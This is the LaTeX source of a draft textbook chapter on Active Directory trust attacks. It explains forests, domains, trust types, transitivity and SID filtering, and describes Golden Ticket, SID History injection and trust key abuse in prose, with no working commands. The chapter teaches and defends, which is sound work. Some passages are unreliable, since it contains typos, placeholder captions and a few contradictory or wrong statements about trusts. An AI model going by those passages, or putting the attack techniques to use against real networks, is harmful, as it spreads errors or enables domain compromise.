\frontmatter          % for the preliminaries
%
\pagestyle{headings}  % switches on printing of running heads
\addtocmark{Hamiltonian Mechanics} % additional mark in the TOC
%
\chapter*{Active Directory Trust Attacks}
\begin{abstract}
    An Active Directory trust attack exploits inherent trust relationships between domains to gain unauthorized access and escalate privileges across an organization's network. In complex enterprise environments with multiple domains and forests, these trusts-established to facilitate authentication and resource sharing-can become critical vectors for lateral movement and full domain compromise. This type of attack leverages an initial toehold in one domain to pivot to others, potentially reaching the most sensitive parts of the network.
\end{abstract}
\section{Foundational Concepts: Setting the Stage}
Attacking Active Directory trust relationships requires a solid and firm understanding of many key concepts (what forests and domains are, how trusts work, what security mechanisms are involved and how they work, for example). Consequently, this chapter is a bit lengthy, especially in the theory and resources parts; however it is best to include all the necessary info here.

\begin{itemize}
    \item Active Directory (AD) is a Microsoft service that centrally manages user credentials, access controls, and network resources.
    \item Domain trusts are secure communications pathways between two or more AD domains or forests, allowing authentication traffic and access requests.
    \begin{itemize}
    \item  Transitive trusts automatically propagate trusts. For example, if Domain A trusts Domain B, and Domain B trusts Domain C, then Domain A also trusts Domain C. This implicitly broadens the potential attack surface.
    \item Intraforest trusts are automatically created after domain controllers have been fully promoted. These transitive trusts exist in the same AD forest.
        \item External and forest trusts are created manually. These can be one-way or two-way and connect domains across different forests or standalone environments.
    \end{itemize}
\end{itemize}

\subsection{Key AD-Based Attack Techniques Refresher}
\textbf{\textit{\subsubsection{Golden Ticket Attacks}}} 
These are among the most damaging AD attacks. The attacker forges a Kerberos Ticket Granting Ticket (TGT) by compromising the \texttt{krbtgt} account's password hash. With this forged ticket, they can impersonate any user and gain unrestricted access across the domain or forest.

\subsubsection{\textbf{\textit{SID History Injection}}}
In this attack, a threat actor compromises a domain and inserts a privileged SID from a trusted domain into the \texttt{SIDHistory} attribute of a compromised user. If the trust relationship is misconfigured with SID filtering disabled, the trusting domain will honor this injected SID-granting unauthorized administrative access.

\subsubsection{\textbf{\textit{Inter-realm TGT Abuse}}}
Attackers forge an inter-realm Kerberos TGT by compromising the trust key between domains. This allows lateral movement even over non-transitive trusts, bypassing traditional trust boundaries.

\subsubsection{\textbf{\textit{Trust Key Abuse}}}
Here, an attacker obtains the password hash of the trust account in a two-way trust. This enables forging Kerberos tickets for authentication across domain boundaries.

\subsubsection{\textbf{\textit{Targeting AD Certificate Services (AD CS)} }}
Misconfigurations in AD CS can allow attackers to issue fraudulent certificates, allowing impersonation, privilege escalation, and lateral movement within or across domains.

\textbf{\textit{DNS Trust Attacks}}
Attackers exploit weaknesses in DNS configurations in trusted domains to manipulate name resolution, redirect traffic or facilitate further compromise of the environment.

\section{Introduction to Active Directory Trust Attacks}
Active Directory (AD) continues to serve as a pioneering technology for organizations of all sizes and sectors. Despite the trend toward hybrid and fully cloud-based infrastructures, AD remains deeply integrated into enterprise networks worldwide. For security professionals and ethical hackers, this means having a strong grasp of AD-its architecture, protocols, and the way its components can be misconfigured or abused-is imperative.

To effectively secure AD, you must first understand how attackers think. That means understanding not just how AD is built but also how it can be broken. You do not need to be a master of every AD facet, but having a solid grasp of its core elements-especially those most commonly targeted-is essential to becoming a competent ethical hacker or defender.

One of the most powerful, yet often misunderstood components of AD is its trust model. Almost a decade ago, researchers such as \textit{harmj0y} brought attention to domain trust exploitation with influential publications like \textit{The Trustpocalypse} (2015) and \textit{A Guide to Attacking Domain Trusts} (2017). At the time, targeting domain trusts was a novel idea in many circles. But for red teamers and defenders actively working in the field, this research opened up a new frontier of attack surfaces and defensive insight.

Since then, the InfoSec community has continued to build on that foundation. New techniques and attack paths have emerged, allowing for an increase in the abuse of trust relationships both within and between forests. These developments have significantly deepened our understanding of how trust structures impact network security.

This chapter is designed to give you the knowledge and skills necessary to assess and defend against trust-based attacks in AD environments. As modern organizations become more interconnected, understanding how trust relationships function-and how they can be exploited-has never been more important.

Because AD is central to authentication, authorization, and resource access, its complexity often leads to vulnerabilities-especially when environments are expanded rapidly or poorly maintained. An improperly configured trust relationship can become a gateway for attackers to move laterally, escalate privileges, and potentially compromise the entire network.

\importantbox{\textbf{Pro-Tip:} Always remember-any change to the AD environment, its infrastructure, or even its supporting network layers, can introduce new vulnerabilities. Even well-intentioned security hardening (like applying GPO settings or deploying new security tools) can inadvertently expand the attack surface. As a best practice, always perform \textbf{re-validation} and \textbf{re-verification} scans (R\&R) after making configuration changes. This is more than just due diligence-it is your responsibility as a security professional to protect not only your systems but also the trust others place in you.}

Additionally, we will focus on two (2) primary types of trust relationships frequently targeted in AD attacks:

\begin{itemize}
    \item \textbf{\textit{Intra-forest trusts-}} Enable resource sharing and communication between domains within the same forest.
    \item \textbf{\textit{Cross-forest trusts-}} Enable similar interactions between domains in completely separate forests.
\end{itemize}

While these trust models are designed to enhance network scalability and team collaborations, they can dramatically increase the attack surface-particularly if misconfigured or left unmonitored. For both red- and blue-team professionals, a deep understanding of these trust mechanisms is essential to identify weak points and anticipate adversarial movements.

By the end of this chapter, you will be equipped to evaluate trust configurations, simulate real-world attacks, and advise on hardening strategies that reduce risk and increase resilience in Active Directory environments.

\section{Understanding Active Directory Forests, Domains, and Trusts and Why You Should Care About Them}
As hackers, red-and-blue teamers, and penetration testers, we often encounter large enterprise environments where gaining an initial toehold in an Active Directory (AD) domain is possible, but privilege escalation within that domain proves difficult. This is where trust relationships start to break down.

For example, if direct escalation paths are exhausted, you may still identify a trust that allows Kerberoasting across domains. Compromising a child domain through this vector could, in turn, enable compromise of the parent domain. Similarly, trust relationships between forests can open the door to more advanced attack paths-compromising a partner forest might provide the access needed to escalate within your current target environment.

In this section, we will examine both intra-forest and cross-forest trust relationships in detail, analyzing both well-known and less commonly exploited attack techniques. We will also approach these attacks from both Windows and Linux perspectives to provide a well-rounded, practical knowledge.

Through real-world scenarios, case studies, and hands-on exercises, you will explore how adversaries leverage trust relationships for lateral movement and privilege escalation. At the end of this chapter, you will have the skills to identify, exploit, and defend against trust-based attacks in AD.
\importantbox{For red teamers, this means sharpening your offensive skills set to uncover new attack paths.}
\importantbox{For defenders, it means understanding why these cyberattacks work in the first place and how to harden AD infrastructures to reduce their impact.}
Ultimately, mastering trust relationships is essential for both attacking and defending modern Active Directory environments.

\section{Active Directory in a Nut\texttt{shell}}
\subsection{Directory Architecture}
First, let us cover the concept of \textbf{\textit{Sites.}} In Active Directory, Sites define the boundaries of high-speed, reliable network links and circuits. They are tied to IP subnets and represent one or more "well-connected" subnets. Sites should not be confused with \textbf{\textit{domains}}, which serve a different purpose and are explained next.

Domains remain the core unit of a Windows-based networkm just as they were in NT 4.0, though their structure has changed. The old distinction between Primary Domain Controllers (PDCs) and Backup Domain Controllers (BDCs) no longer exists. Instead, all domain controllers (DCs) are peers. By default, Windows servers install as standalone member servers, and administrators can still use \verb|DCPROMO.EXE| (the Active Directory Installation Wizard to promote or demote a server to or from a DC. The wizard collects the necessary configuration details to install Active Directory and its core components.

Replication is managed by the \textbf{\textit{Knowledge Consistency Checker (KCC),}} a built-in service that runs on every DC. The KCC automatically creates and maintains the connection objects needed for replication within a site. While administrators can add or remove these connections manually, if replication fails or a single point of failure exists, the KCC generates new connection objects to ensure replication continues without interruption.

Every domain controller (DC) in a domain can accept updates to the domain database (\texttt{ntds.dit})  replicate those cjanges to the other DCs. The very first domain craeted in a forest is called the \textbf{\textit{root domain,}}and it forms the top of the Active Directory hierarchy. Any additional domains created beneath it are known as \textbf{\textit{child domains,}} and each child domain must have a unique name within the forest.

Replication, in this manner, works differently between domains. Within a single domain, DCs replicate the entire domain directory partition to stay synchronized. Between the root domain and child domains, however, replication occurs only for forest-wide data (the schema and configuration partitions). Each domain maintains its own domain partition, meaning user and computer accounts are not replicated across domains unless explicitly created in those respective domains.
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{ad1.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
When a root domain is created and at least one child domain is added beneath it, the structure is now konwn as a \textbf{\textit{tree.}} This term is used frequently in the context of directory services, so it is important to be faimliar with it.
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{ad2.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

The directory structure starts to resemble a tree, with the root domain as the trunk and each child domain branching out beneath it. Now, imagine a large company like Microsoft that owns multiple subsidiary corporations. In practice, each corporation might have its own tree, with its own root domain and child domains.

When multiple trees are linked together through trust relationships, the collection is known as a \textbf{forest}. A forest is the highest-level container in Active Directory, made up of one or more trees. While domains within a single tree share a contiguous namespace (e.g., \verb|corp.example.com|, \verb|sales.corp.example.com|), domains in different trees within the same forest can have completely different namespaces (e.g., \verb|corp.example.com| and \verb|dupont.com|).

In short:
\begin{itemize}
    \item A \textbf{tree} = one root domain + its child domains (single namespace).
    \item A \textbf{forest} = one or more trees joined by trusts (multiple namespaces).
\end{itemize}
Let’s look at how this would appear in our site example.
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{ad3.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

Let us use a real-world example. Suppose our company owns two separate domains: \textbf{techtutorials.net} and \textbf{xyzabc.com}. Each of these domains would form its own \textbf{tree}, organized in the same way as the root domain (for example, \verb|mcmcse.local|).

\subsubsection{Trusts Overview}

Active Directory makes managing trusts far easier than it was in the old NT 4.0 days. There are three major improvements:

\begin{enumerate}
    \item \textbf{Automatic trust creation}

 When a new domain is added to a forest, the necessary trust relationships are created automatically.
    \item \textbf{Two-way transitive trusts}

 By default, trusts in Active Directory are two-way. If Domain A trusts Domain B, then Domain B automatically trusts Domain A. In NT 4.0, trusts had to be configured as multiple one-way trusts, which was tedious and error-prone.
    \item \textbf{Transitivity}

 Trusts are also transitive. If Domain A trusts Domain B, and Domain B trusts Domain C, then Domain A automatically trusts Domain C (and vice versa). This greatly simplifies multi-domain environments.
\end{enumerate}
These changes significantly reduce the administrative overhead of managing trusts; however, administrators can still create \textbf{one-way trusts} when more restrictive access control is required.

\textbf{Directory Components:}

Now that we have looked at the big picture, it is time to take a look at what happens inside a domain. To get started, the first concept that you will need to understand what the directory is made of. A common analogy for a directory is a phonebook. Both contain listings of various objects and information and properties about them. Within the directory are several other terms that you must know to gain even an entry level understanding as to how it all works.

\begin{itemize}
    \item \textbf{Objects} - Objects in the database can include printers, users, servers, clients, shares, services, etc. and are the most basic component of the directory.
    \item \textbf{Attributes} - An attribute describes an object. For example, passwords and names are attributes of user objects. Different objects will have a different set of attributes that define them, however, different objects may also share attributes. For example, a printer and Windows Vista computer may both have an IP address as an attribute.
    \item \textbf{Schema} - A schema defines the list of attributes that describe a given type of object. For example, let's say that all printer objects are defined by name, PDL type and speed attributes. This list of attributes comprises the schema for the object class "printers". The schema is customizable, meaning that the attributes that define an object class can be modified.
    \item \textbf{Containers} - A container is very similar to the folder concept in Windows. A folder contains files and other folders. In Active Directory, a container holds objects and other containers. Containers have attributes just like objects even though they do not represent a real entity like an object. The 3 types of containers are Domains, Sites and Organizational Units and are explained in more detail below.
    \begin{itemize}
        \item \textit{Domains} - We have already discussed this concept in the preceding paragraphs.
        \item \textit{Sites} - A site is a location. Specifically, sites are used to distinguish between local and remote locations. For example, company XYZ has its headquarters in San Fransisco, a branch office in Denver and an office that uses DUN to connect to the main network from Portland. These are 3 different sites.
        \item \textit{Organizational Units} - Organizational units are containers into which you can place users, groups, computers, and other organizational units. An organizational unit cannot contain objects from other domains. The fact that organizational units can contain other OUs, a hierarchy of containers can be created to model your organization's structure and hierarchy within a domain. Organizational units should be used to help minimize the number of domains required for a network.
    \end{itemize}
\end{itemize}
Now that we know what these concepts mean, let us take a visual look at what is going on inside a domain.
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{ad4.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

The folder icons in Active Directory represent \textbf{\textit{Organizational Units (OUs)}} container boxes, which can hold objects, such as users, groups, computers, printers, and servers. OUs can also contain other OUs, creating a nested structure.

\subsubsection{Object Names}

Active Directory relies on the \textbf{\textit{Lightweight Directory Access Protocol (LDAP)}} for its naming conventions. Two key terms are \textbf{\textit{Distinguished Names (DNs)}} and \textbf{\textit{Common Names (CNs)}}. A distinguished name is the full path to an object in the directory tree, similar to the full path of a file in a file system. The DN uniquely identifies the location of an object.

The components of a distinguished name include:

\begin{itemize}
    \item \textbf{OU (Organizational Unit):} Represents the container, often based on the organizational structure.
    \item \textbf{DC (Domain Component):} Represents each level of the domain name. Every dot in a domain name becomes a separate DC.
    \item \textbf{CN (Common Name):} Identifies the object itself.
\end{itemize}

\textbf{Examples:}
\begin{itemize}
    \item User object: \verb|CN=mindhakcdiva,CN=Users,DC=hhw,DC=COM|
    \item Same user in child domain: \verb|CN=mindhackdiva,CN=Users,DC=it,DC=hhw,DC=COM|
    \item Computer object: \verb|CN=WOPR,CN=Computers,DC=hhw,DC=COM|
\end{itemize}
Other naming formats also exist:
\begin{table}
\centering

\begin{tabular}{l l}
Naming Convention & Example \\

Friendly name / RFC 822 & mindhackdiva@hhw.com\\
LDAP URL & LDAP://hhw.com/CN=mhackdiva,OU=it,O=HHW,C=US\\
Universal Naming Convention & hhw.com\textbackslash{}documents\textbackslash{}webpages\textbackslash{}index.shtm\\

\end{tabular}

\end{table}

\subsubsection{Global Catalog}

Because naming can be complex, Active Directory uses the \textbf{Global Catalog (GC)} service to help locate objects. The GC allows advanced searches, not just by name, but by attributes. For example, if I need a printer that supports 100 pages per minute and binding, I can query the GC to find one that matches, like a Xerox Docutech 6135. The GC even shows location, so if the printer is in Seattle while I am in Portland, I know to contact its owner.

The GC can also resolve users. Suppose that I get a voicemail from 'Betty Doe' on the payroll, but I can't find her number. I can search for her in the GC and retrieve it (if stored in her attributes). This feature is similar to the address book in Microsoft Exchange, but the GC extends it to all directory objects, not just users.

Finally, every object in AD is assigned a \textbf{GUID (Globally Unique Identifier)}. This 128-bit value never changes for that object, even if it is renamed or moved. Applications can record the GUID and still locate the object later using the Global Catalog.











\section{Active Directory Forests, Domains \& Trusts}
An Active Directory domain \textit{} is a collection of computers, users, and other resources that are managed together. A domain has its own security database, which is used to authenticate users and computers when they log in or access resources within the domain.

A \textit{forest} is a collection of one or more Active Directory domains that share a common schema, configuration, and \textit{Global Catalog}. The \textit{ scheme} defines the types of objects that can be created within the forest, and the global catalog is a centralized database that contains a partial searchable replica of every domain in the forest.

\subsection{Understanding What Trust Relationships Do}
Active Directory (AD) trust relationships create a pathway for secure authentication and resource access between different domains or forests by linking their identity systems. They allow users in one AD environment to use their credentials to access resources in another, which is important for collaboration and centralizes management in organizations that house multiple domains. Key concepts include \textit{one-way} versus \textit{two-way trusts, transitive trusts} that allow cascading access, and automatic creation for parent-child domains versus manual creation for others.
Trust relationships encompass the following:
\textbf{Enable Authentication and Authorization:}
A trust allows users from a trusted domain to be authenticated and authorized to access resources in a trusting domain.
\textbf{Facilitate Resource Sharing:}
By enabling access across domains, trusts allow for seamless sharing of files, printers, and other resources located in different domains often through abuse of HTTP, SMB, WMIC, WMI, and DLL.
\textbf{Bridge Separate Domains:}
In complex environments with multiple domains or forests, trusts act as secure bridges, allowing users to interact with systems outside their native domain without creating duplicate accounts (which are not allowed on a domain network).
\subsection{Key Characteristics and Concepts}
\subsubsection{Trusting Versus Trusted Partner}
In a trust relationship, one domain is designated the "\textit{trusting}" partner, and the other is the "\textit{trusted}" partner.
\subsection{One-Way Versus Two-Way}
\subsubsection{One-Way Trust:}
A unidirectional relationship; for example, Domain A trusts Domain B, so users in Domain B can access resources in Domain A, but not vice versa.
\subsubsection{Two-Way Trust:}
A bidirectional relationship in which both domains trust each other, allowing users in either domain to access resources in the other.
\subsection{Transitive Versus Non-Transitive}
\subsubsection{Transitive Trust}
If Domain A trusts Domain B and Domain B trusts Domain C, then Domain A automatically trusts Domain C. This is a key feature of parent-child trusts and forest trusts.
\subsubsection{Non-Transitive Trust}
Trust is limited only to the two domains directly involved in the relationship.
\subsection{Automatic Versus Manual}
\subsubsection{Automatic Trusts}
Established automatically when a child domain is created under a parent domain.
\subsubsection{Manual Trusts}
Established between unrelated domains or forests through administrative actions.
\subsection{Kerberos Protocol}
Trusts use \textit{Kerberos authentication}, a secure protocol for passing authentication traffic between the linked domains.
\subsection{Why They Matter}
\subsubsection{Security and Collaboration}
Trusts enhance security by allowing organizations to manage users and resources centrally across different domains while still enabling collaboration.
\subsubsection{Reduced Complexity}
They eliminate the need to create separate user accounts for each domain, simplifying administration, lowering the attack surface, and improving the overall user experience.

Trust relationships between domains allow users in one domain to access resources in another domain. There are several types of trust relationships that can be established, including one-way trusts, two-way trusts, external trusts, etc.

Once a trust relationship is established between a trusting domain (A) and trusting domain (B), users from the trusted domain can authenticate to the trusting domain's resources. In other -more technical- terms, trusts extend the security boundary of a domain or forest.

\importantbox{Simply establishing a trust relationship does not automatically grant access to resources. In order to access a "trusting" resource, a "trusted" user must have the appropriate permissions to that resource. These permissions can be granted by adding the user to a group that has access to the resource or by giving the user explicit permissions to the resource.

A trust relationship allows users in one domain to authenticate to the other domain's resources, but it does not automatically grant access to them. Access to resources is controlled by permissions that must be explicitly granted to the user in order for them to access the resources.}

\subsubsection{Global Catalog}

The global catalog is a partial copy of all objects in an Active Directory forest, which means that some object properties (but not all) are contained within it. This data is replicated among all domain controllers marked as global catalogs for the forest. One of the Global Catalog's purposes is to facilitate quick object searching and conflict resolution without the necessity of referring to other domains.

The initial global catalog is generated on the first domain controller created in the first domain in the forest. The first domain controller for each new child domain is also set as a global catalog by default, but others can be added.

The GC allows both users and applications to find information about any objects in ANY domain in the forest. The Global Catalog performs the following functions:
\begin{itemize}
    \item Authentication (provided authorization for all groups that a user account belongs to, which is included when an access token is generated)
    \item Object search (making the directory structure within a forest transparent, allowing a search to be carried out across all domains in a forest by providing just one attribute about an object.)
\end{itemize}

\subsubsection{Trust Types}

The \verb|trustType| attribute of a TDO specifies the type of trust that is established. Here are the different trust types (section 6.1.6.7.15 "trustType" of [MS-ADTS]):

\begin{enumerate}
    \item Downlevel: A trust with a domain that is running a version of Windows NT 4.0 or earlier.
    \item Uplevel: A trust with a domain that is running Windows 2000 or later.
    \item MIT: A trust with a non-Windows Kerberos realm, typically used for interoperability with UNIX-based systems running MIT Kerberos.
    \item DCE: Not used in Windows. Would refer to trusts with a domain running \href{http://www.opengroup.org/dce/info/}{DCE}.
    \item AAD: The trusted domain is in Azure Active Directory.
\end{enumerate}

\subsubsection{Trust Flavor}

The trust "flavor", on the other hand, represents the nature of the trust relationship between domains or forests. It is not a direct attribute but is identified based on other TDO attributes.
\begin{enumerate}
    \item \textit{\textbf{Parent-Child}}: this type of trust relationship exists between a parent domain and a child domain in the same forest. The parent domain trusts the child domain, and the child domain trusts the parent domain. This type of trust is automatically created when a new child domain is created in a forest.
    \item \textit{\textbf{Tree-Root:}} exists between the root domain of a tree and the root domain of another tree in the same forest. This type of trust is automatically created when a new tree is created in a forest.
    \item \textit{\textbf{Shortcut}} (a.k.a. \textit{cross-link}): exists between two child domains of different tree (e.g., different parent domains) within the same forest. This type of trust relationship is used to reduce the number of authentication hops between distant domains. It is a one-way or two-way transitive trust.
    \item External: exists between a domain in one forest and a domain in a different forest. It allows users in one domain to access resources in the other domain. It's usually set up when accessing resources in a forest without trust relationships established.
    \item Forest: exists between two forests (i.e. between two root domains in their respective forest). It allows users in one forest to access resources in the other forest.
    \item Realm: exists between a Windows domain and a non-Windows domain, such as a Kerberos realm. It allows users in the Windows domain to access resources in the non-Windows domain.
\end{enumerate}



\subsection{Trust Types}
While this chapter assumes an intermediate understanding of Active Directory (AD), it is useful to clearly define the different types of trust relationships you may encounter in real-world environments. Not all of these will be covered in-depth; however, understanding their scope and purpose provides important context.
\begin{itemize}
    \item \textbf{\textit{Parent-Child Trust:}} Created automatically when a new domain of children is added to a forest. This establishes a two-way transitive trust between the parent domain and its child.
        \item \textbf{\textit{Tree-Root Trust:}} Formed automatically when a new tree is created within a forest. Link the root domain of the new tree to the root domain of the existing tree, allowing a two-way transitive trust.
        \item \textbf{\textit{External Trust:}}A manually created trust between a domain in one forest and a domain in a separate forest. It is typically used to provide access to resources where there is no forest trust. External trusts can be one-way or two-way, but unlike forest trusts, they are not transitive.
        \item \textbf{\textit{Forest Trust:}}A transitive trust established between the root domains of two separate forests. This allows users in one forest to access resources in another, supporting collaboration across organizational boundaries.
        \item \textbf{\textit{Shortcut (Cross-Link) Trust:}}Created between two child domains in different trees of the same forest. It is used to optimize authentication pathways, reducing the number of trust hops required. Shortcut trusts can be configured as one-way or two-way transitive.
        \item \textbf{\textit{Realm Trust: }}Connects a Windows domain to a non-Windows Kerberos realm. This enables interoperability, allowing authentication and resource access across different security infrastructures.
\end{itemize}

In practice, the most commonly encountered trust types are \textit{Parent-Child, Tree-Root,} and \textit{Forest Trusts.} External, Shortcut, and Realm trusts appear less frequently, but you should be aware of their role and potential security implications associated with them.

For the purposes of this chapter, we will focus primarily on \textbf{Parent-Child} and \textbf{Forest Trust} relationships, as these are the most frequently targeted in real-world attacks.


\begin{table}
    \centering
    \begin{tabular}{ccccc}
         Trust Type&  Transivity&  Direction&  Authentication Mechanisms& Creation Mode\\
         Parent/Child&  Transitive&  Two-Way&  Either& Auto\\
         Tree/Root&  Transitive& Two-Way&  Either& Auto \\
         Shortcut (a.k.a. cross-link)&  Transitive&  Two-Way&  Either& Manual \\
         Realm&  Either& Either&  Kerberos V5 Only& Manual\\
         Forest&  Transitive&  Either&  Either& Manual\\
         External&  Non-transitive&  One-Way&  NTLM Only& Manual\\
    \end{tabular}
    \caption{Caption}
    \label{tab:placeholder}
\end{table}

\section{Transitivity}
In Active Directory, a transitive trust is a type of trust relationship that allows access to resources to be passed from one domain to another. When a transitive trust is established between two domains, any trusts that have been established with the first domain are automatically extended to the second domain. This means that if Domain A trusts Domain B and Domain B trusts Domain C, then Domain A automatically trusts Domain C, even if there is no direct trust relationship between Domain A and Domain C. Transitive trusts are useful in large, complex networks where multiple trust relationships have been established between many different domains. They help simplify the process of accessing resources and reduce the number of authentication hops that may be required.

The transitivity status of a trust depends on \texttt{trustAttributes} flags of a \href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/b645c125-a7da-4097-84a1-2fa7cea07714\#gt_f2ceef4e-999b-4276-84cd-2e2829de5fc4}{TDO}.

\importantbox
\begin{itemize}
    \item If the \verb|TRUST_ATTRIBUTE_NON_TRANSITIVE (0x00000001)| flag is set, then transitivity is disabled.
    \item If the \verb|TRUST_ATTRIBUTE_WITHIN_FOREST (0x00000020)| flag is set, then the transitivity is enabled.
    \item If the flag \verb|TRUST_ATTRIBUTE_FOREST_TRANSITIVE (0x00000008)| is set, then the transitivity is enabled.

\end{itemize}
In any other case, transitivity is disabled.

\section{SID Filtering}
According to Microsoft, the security boundary in Active Directory is the forest, not the domain. The forest defines the boundaries of trust and controls access to resources within the forest.

The domain is a unit within a forest and represents a logical grouping of users, computers, and other resources. Users within a domain can access resources within their own domain and can also access resources in other domains within the same forest, as long as they have the appropriate permissions. Users cannot access resources in other forests unless a trust relationship has been established between the forests.

SID filtering plays an important role in the security boundary by making sure "only SIDs from the trusted domain will be accepted for authorization data returned during authentication. SIDs from other domains will be removed" (\verb|netdom| cmdlet output). By default, SID filtering is disabled for intraforest trusts and enabled for interforest trusts.

 \begin{figure}
     \centering
     
\includegraphics[width=0.75\linewidth]{defaultconfig1.png}
     \caption{Enter Caption}
     \label{fig:placeholder}
 \end{figure}

\begin{figure}
    \centering
